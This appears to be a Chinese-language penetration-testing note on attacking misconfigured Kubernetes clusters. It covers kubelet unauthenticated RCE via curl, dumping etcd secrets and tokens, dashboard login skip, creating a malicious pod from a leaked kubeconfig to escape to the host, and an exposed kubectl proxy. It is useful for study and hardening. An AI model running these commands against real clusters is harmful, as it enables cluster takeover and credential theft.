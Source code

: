 创建恶意 pods
https://192.168.139.130:6443/api/v1/namespaces/default/pods  post...（具体的poc上网找找）

### 3.kubelet未授权10250/10255
kubelet节点10250/10255未授权RCE
未授权访问的原因:
/var/lib/kubelet/config.yaml设置了anonymous为true和mode总是允许

利用需要通过访问https://x.x.x.x:10250/pods/获取namespace，pod，container三个参数
![[Pasted image 20240805211047.png]]
然后进行利用
curl -XPOST -k "https://192.168.139.132:10250/run/<namespace>
<pod>/<container>
"cmd=id" //id可以替换为你的命令
这时候是在容器环境，要进行逃逸
### etcd未授权访问
默认通过证书认证，主要存放节点的数据，如token和证书

利用：
暴露的etcd未授权--获取secrets&token--通过token访问api-server进行接管
ssrf解决限制访问--获取s&t--apiserver接管
v2/v3 版本的利用请参考
v2的直接访问http://ip:2379/v2/keys?recursive=true就可以看到所以key和value  
v3需要用etcdctl工具去获取s&t，现在基本都是v3版本
https://www.cnblogs.com/qtzd/p/k8s_etcd.html(有关etcd的其他利用也都可以看)

1.在启动etcd时，如果配置文件没有指定 --client-cert-auth 参数打开证书校验，并且把listen-client-urls监听修改为0.0.0.0那么也就意味着这个端口被暴露在外
2.打开证书校验后，通过本地127.0.0.1:2379可以免认证访问etcd服务，但是其他地址想访问需要cert认证，所以需要配合ssrf等利用---这种情况属于只能本地访问获取secrets和token
3.实战中k8s默认2379只在本地监听，因为访问没设置0.0.0.0
### dashboard未授权访问
默认端口8001（会映射，k8s存在一个图形化界面，端口在30000+以上随机开放。）
这是一个控制集群的可视化面板
利用：
- 用户开启enable-skip-login时可以在登陆界面点击跳过登陆进入
- kubernetes-dashboard绑定cluster-admin（有管理集群的最高权限）
- 找到暴露面板。bashboard跳过-创建或者上传pod，进入pod，逃逸

用泄露的配置文件来登陆，
1.获取config（通过webshell，github等拿到k8s配置的config文件）
2.安装kubectl使用config连接
3.上传利用test.taml创建pod
kubectl apply -f ttest.taml -n default --kubeconfig=config
4.逃逸
kubectl exec -it xiaodisec bash -n default --kubeconfig=config 
cd /mnt   //这里是恶意pod挂载宿主机根目录的地方

### kubectl_proxy不安全配置
当运维人员需要某个环境暴露端口或者IP时，会用到Kubectl Proxy使用kubectl proxy命令就可以使API server监听在本地的8009端口上，此时我们便可使用kubectl工具来进行代理直接访问到K8S集群里的内容。
利用：蕾西某个不需认证的服务应用值本地访问被代理出去后形成了尾部攻击的入口，找到暴露的入口，根据实际情况利用
```
kubectl --insecure-skip-tls-verify proxy --accept-hosts=^.*$ --address=0.0.0.0 --port=8009

kubectl -s http://192.168.11.152:8009 get pods -n kube-system
```